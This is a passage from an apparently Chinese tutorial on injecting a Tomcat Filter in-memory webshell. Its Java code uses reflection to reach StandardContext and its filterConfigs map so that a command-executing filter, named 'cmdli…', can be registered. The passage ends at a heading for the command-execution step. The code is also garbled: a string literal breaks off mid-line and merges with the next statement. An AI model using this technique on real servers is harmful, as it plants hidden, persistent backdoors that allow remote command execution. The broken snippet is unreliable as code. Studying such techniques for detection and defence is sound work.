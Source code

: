 ![img](img/1669772776182-1edfa7ea-248d-4359-aa45-0f8d595c0ed9.png)

反射获取`ApplicationContext`中的`context`部分

```java
Field Configs = null;
Map filterConfigs;
//反射获取ApplicationContext中的context
ServletContext servletContext = request.getSession().getServletContext();//得到web应用的servletContext 
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);

ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

String FilterName = "cmdli
Configs = standardContext.getClass().getDeclaredField("filterConfigs");
Configs.setAccessible(true);
//赋值给filterConfigs并强转换
filterConfigs = (Map) Configs.get(standardContext);;
```

执行命令部分
